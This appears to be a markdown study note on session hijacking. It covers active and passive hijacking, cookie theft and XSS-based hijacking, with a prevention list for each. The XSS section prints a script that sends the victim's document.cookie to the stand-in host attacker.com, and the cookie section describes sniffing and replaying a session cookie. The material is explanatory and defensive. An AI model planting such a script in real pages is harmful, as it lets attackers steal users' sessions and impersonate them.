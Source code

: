 # 🔍 702 Types of Session Hijacking

Below are common types of session hijacking attacks based on the technique used.

---

## ⚔️ 1. Active vs Passive Hijacking

### ✅ Active Hijacking
- **Definition**: The attacker takes control of an active session by injecting or manipulating traffic in real time.
- **How it works**:
  - Man-in-the-middle (MITM) attack
  - TCP session manipulation
- **Risks**: Real-time session takeover; high detection risk.

### 🕵️ Passive Hijacking
- **Definition**: The attacker silently monitors traffic to extract useful information, such as credentials or tokens.
- **How it works**:
  - Sniffing unencrypted traffic
  - Packet analysis
- **Risks**: Harder to detect but does not involve immediate takeover.

| Type     | Involves Interaction? | Real-time? | Detection Risk |
|----------|------------------------|------------|----------------|
| Active   | Yes                    | Yes        | High           |
| Passive  | No                     | No         | Low            |

---

## 🍪 2. Cookie Hijacking

### Definition:
- An attacker steals a user's session cookie to gain unauthorized access to their session.

### How it Happens:
- Intercepting HTTP traffic on unsecured networks (especially HTTP, not HTTPS)
- Using malware or browser exploits
- Cross-site scripting (XSS)

### Example:
```plaintext
Attacker uses Wireshark to sniff an HTTP request.
Extracts session cookie: PHPSESSID=123456
Uses stolen cookie in their browser to impersonate the victim.
```

### Prevention:
- Use HTTPS for all traffic
- Set secure and HttpOnly flags on cookies
- Regenerate session tokens after login

---

🛡️ 3. XSS-Based Hijacking (Cross-Site Scripting)

### Definition:
The attacker injects malicious scripts into web pages viewed by other users to steal session cookies or tokens.

### Attack Flow:
- Attacker submits malicious JavaScript to a vulnerable form.
- Victim loads the page with the malicious script.
- Script executes in victim’s browser, stealing session cookie.
- Attacker sends cookie to remote server and hijacks session.

### Example Script:
```html
<script>
  var i = new Image();
  i.src="http://attacker.com/steal?cookie=" + document.cookie;
</script>
```

### Prevention:
- Input validation and sanitization
- Use Content Security Policy (CSP)
- Encode outputs on dynamic web pages

---

📘 Summary

| Attack Type           | Primary Technique   | Risk Level  | Mitigation Techniques                  |
|-----------------------|---------------------|-------------|----------------------------------------|
| Active Hijacking      | Traffic Injection   | High        | Encryption, session tokens             |
| Passive Hijacking     | Packet Sniffing     | Medium      | Secure protocols (HTTPS, SSH)         |
| Cookie Hijacking      | Stealing cookies    | High        | HTTPS, Secure cookie attributes        |
| XSS-Based Hijacking   | JavaScript Injection| Very High   | CSP, input validation, output encoding|

---

> 🧠 Session hijacking is a powerful attack vector — secure your sessions as if your entire system depends on it. Because it does.

